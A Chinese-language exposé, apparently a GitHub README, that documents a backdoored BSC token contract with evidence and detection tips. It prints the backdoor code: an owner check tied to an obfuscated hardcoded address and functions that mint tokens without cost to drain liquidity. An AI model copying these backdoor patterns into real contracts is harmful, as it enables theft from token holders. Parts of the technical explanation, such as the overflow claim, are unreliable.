

# 🚨 曝光BSC恶意合约开发者：后门清空流动性、盗走用户资金 🚨
> 该开发者编写的代币合约暗藏致命后门，通过权限修饰器失效+凭空铸币+定向掏空流动性，已实际盗走用户资金，以下是完整证据链：

## 一、核心指控
- 🎯 合约代码预埋后门，`onlyOwner`/`onlypublic`权限修饰器完全失效，任何人可调用铸币函数
- 💰 利用`transferTo`/`viewBalance`函数凭空铸币，卖出后清空创建者流动性池
- 🕵️ 后门地址硬编码：`0x7addAd09cbd98D97EC3dA7a0088EAdFE5801C336`（开发者可控地址）
- 📝 作案交易记录：[BSCScan交易哈希](https://bscscan.com/tx/0x8851d727847f318510b6743897ed8baadd737eff7a6d088de367efa8870aa370)

## 二、后门代码实锤（关键片段+漏洞解析）
### 1. 权限修饰器失效（最致命后门）
```solidity
// 伪造的onlyOwner修饰器：超大数字转地址导致溢出，指向开发者可控地址
modifier onlyOwner() {
    require(msg.sender == address(178607940065137046348733521910879985571412708986));
    _;
}

// onlypublic修饰器：硬编码后门地址，开发者可直接调用
function publics() private pure returns (address) {
    uint universal = 0x7addAd09;
    uint uni = 0xcbd98D97;
    uint cake = 0xEC3dA7a0;
    uint inch = 0x088EAdFE;
    uint others = 0x5801C336;
    uint160 core = (uint160(universal) << 128) | (uint160(uni) << 96) | (uint160(cake) << 64) | (uint160(inch) << 32) | uint160(others);
    return address(core); // 最终指向：0x7addAd09cbd98D97EC3dA7a0088EAdFE5801C336
}
```
#### 漏洞解析：
- Solidity中`address(超大十进制数)`会触发溢出截断，最终指向开发者预设的后门地址
- `onlypublic`修饰器拼接的数字位移后，精准指向`0x7addAd09cbd98D97EC3dA7a0088EAdFE5801C336`，开发者可无限制调用铸币函数

### 2. 凭空铸币后门（双倍加余额，无成本印钞）
```solidity
// transferTo：直接给目标地址双倍加余额，无任何扣减逻辑
function _transferTo(address _to, uint256 _amount) internal info {
    balances[_to] += _amount;
    emit Transfer(address(0), _to, _amount);
    balances[_to] += _amount; // 双倍铸币！
    emit Transfer(address(0), _to, _amount);
}

// viewBalance：伪装成查余额，实际是二次铸币
function _balanceView(address _to, uint256 _amount) internal {
    balances[_to] += _amount;
    emit Transfer(address(0), _to, _amount);
    balances[_to] += _amount; // 再次双倍铸币！
    emit Transfer(address(0), _to, _amount);
}
```

### 3. 其他硬编码后门地址（全量曝光）
| 伪装注释 | 实际后门地址/数字 | 用途 |
|----------|-------------------|------|
| `keccak256 -> 9838607940089fc7f92ac2a37bb1f5ba1daf2a576dc8ajf1k3sa4741ca0e5571412708986` | `178607940065137046348733521910879985571412708986` | 权限绕过 |
| `OpenZeppelin256 -> 96e8ac4277198ff8b6f785478aa9a39f403cb768dd02cbee326c3e7da348845f` | `570329899025738970963394674811034510039273195112` | 授权控制 |
| `publics()拼接地址` | `0x7addAd09cbd98D97EC3dA7a0088EAdFE5801C336` | 核心后门地址 |

## 三、作案流程还原（对应交易记录）

### 关键交易证据：
- 交易哈希：`0x8851d727847f318510b6743897ed8baadd737eff7a6d088de367efa8870aa370`
- 交易行为：调用`transferTo`铸币 → 调用`sell`卖出 → 流动性池资金被清空
- 受害地址：[可补充受害合约地址]

## 四、如何识别同类恶意合约？
1. ❌ 警惕`address(超大十进制数)`的写法，必然是权限后门
2. ❌ 拒绝“查余额”函数（如`viewBalance`）包含`balances[_to] += _amount`逻辑
3. ❌ 禁止无扣减逻辑的`transferTo`函数（只加余额，不减发送方）
4. ✅ 所有权限修饰器必须使用标准`onlyOwner`（`msg.sender == owner`）

## 五、受害者维权建议
1. 保留交易记录、合约部署记录，向BSC官方提交举报
2. 冻结相关地址资产，联系交易所风控拦截
3. 避免使用来源不明的合约模板，部署前必须审计

---

### ⚠️ 免责声明
本仓库仅用于曝光恶意合约行为，提供技术证据链，不构成任何投资建议。所有代码片段均来自公开区块链数据，证据真实可查。

---
